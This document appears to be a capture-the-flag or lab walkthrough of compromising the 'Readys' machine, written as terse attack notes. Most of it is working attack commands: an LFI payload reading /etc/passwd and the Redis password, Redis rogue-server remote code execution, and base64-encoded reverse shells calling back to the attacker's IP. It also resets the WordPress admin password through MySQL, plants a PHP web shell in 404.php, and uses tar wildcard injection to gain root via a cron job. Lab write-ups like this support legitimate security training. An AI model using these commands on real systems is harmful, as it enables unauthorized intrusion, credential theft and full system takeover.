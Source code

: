 # Readys

### Enumeration

```
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-generator: WordPress 5.7.2
|_http-title: Readys &#8211; Just another WordPress site
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.38 (Debian)
6379/tcp open  redis   Redis key-value store
```

```
$ wpscan --url http://192.168.147.166/ --api-token [REDACTED]
...
[+] site-editor
 | Location: http://192.168.147.166/wp-content/plugins/site-editor/
 | Latest Version: 1.1.1 (up to date)
 | Last Updated: 2017-05-02T23:34:00.000Z
 | Readme: http://192.168.147.166/wp-content/plugins/site-editor/readme.txt
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://192.168.147.166/wp-content/plugins/site-editor/, status: 200
 |
 | [!] 1 vulnerability identified:
 |
 | [!] Title: Site Editor <= 1.1.1 - Local File Inclusion (LFI)
 |     References:
 |      - https://wpscan.com/vulnerability/4432ecea-2b01-4d5c-9557-352042a57e44
 |      - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-7422
 |      - https://seclists.org/fulldisclosure/2018/Mar/40
 |      - https://github.com/SiteEditor/editor/issues/2
```

WordPress Plugin Site Editor 1.1.1 - Local File Inclusion

https://www.exploit-db.com/exploits/44340

```
** Proof of Concept **
http://<host>/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/passwd
```

```
$ redis-cli -h 192.168.147.166
192.168.147.166:6379> info
NOAUTH Authentication required.

/etc/redis/redis.conf

/wp-content/plugins/site-editor/editor/extensions/pagebuilder/includes/ajax_shortcode_pattern.php?ajax_path=/etc/redis/redis.conf

requirepass [REDACTED]
```

### Initial Access

Redis 4x-5x RCE

[https://github.com/vulhub/redis-rogue-getshell](https://github.com/vulhub/redis-rogue-getshell)

```
$ git clone https://github.com/vulhub/redis-rogue-getshell.git
$ cd redis-rogue-getshell
$ cd RedisModulesSDK
$ make
$ cd ..

$ python3 redis-master.py -r 192.168.147.166 -p 6379 -L 192.168.49.147 -P 80 -f RedisModulesSDK/exp.so -a "[REDACTED]" -c "id"
uid=107(redis) gid=114(redis) groups=114(redis)

# Reverse Shell
/bin/bash -i >& /dev/tcp/192.168.49.147/8080 0>&1 - Base64 Encoded

$ python3 redis-master.py -r 192.168.147.166 -p 6379 -L 192.168.49.147 -P 80 -f RedisModulesSDK/exp.so -a "[REDACTED]" -c "echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDkuMTQ3LzgwODAgMD4mMQ== | base64 -d > /tmp/evil.sh"
$ python3 redis-master.py -r 192.168.147.166 -p 6379 -L 192.168.49.147 -P 80 -f RedisModulesSDK/exp.so -a "[REDACTED]" -c "bash -p /tmp/evil.sh"
```

### Lateral Movement

```
/** MySQL database username */
define( 'DB_USER', 'karl' );

/** MySQL database password */
define( 'DB_PASSWORD', '[REDACTED]' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

redis@readys:/var/www/html$ mysql -u karl --password=[REDACTED] -h localhost -e "use wordpress;UPDATE wp_users SET user_pass=MD5('hacked') WHERE ID = 1;"

# admin:hacked
```

[https://www.revshells.com/](https://www.revshells.com) - PHP PentestMonkey - /bin/bash -> Added to 404.php

### PrivEsc

```
alice@readys:/$ cat /etc/crontab
*/3 * * * * root /usr/local/bin/backup.sh

alice@readys:/$ ls -lh /usr/local/bin/backup.sh
-rwxr-xr-x 1 root root 122 Nov 17 12:36 /usr/local/bin/backup.sh

#!/bin/bash

cd /var/www/html
if [ $(find . -type f -mmin -3 | wc -l) -gt 0 ]; then
tar -cf /opt/backups/website.tar *
fi
```

There is a wildcard usage.

[https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/)

```
alice@readys:/$ cd /var/www/html

# rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 192.168.49.147 80 >/tmp/f - Base64 Encoded

alice@readys:/var/www/html$ echo cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnwvYmluL2Jhc2ggLWkgMj4mMXxuYyAxOTIuMTY4LjQ5LjE0NyA4MCA+L3RtcC9m | base64 -d > shell.sh
alice@readys:/var/www/html$ echo "" > "--checkpoint-action=exec=sh shell.sh"
alice@readys:/var/www/html$ echo "" > --checkpoint=1
```

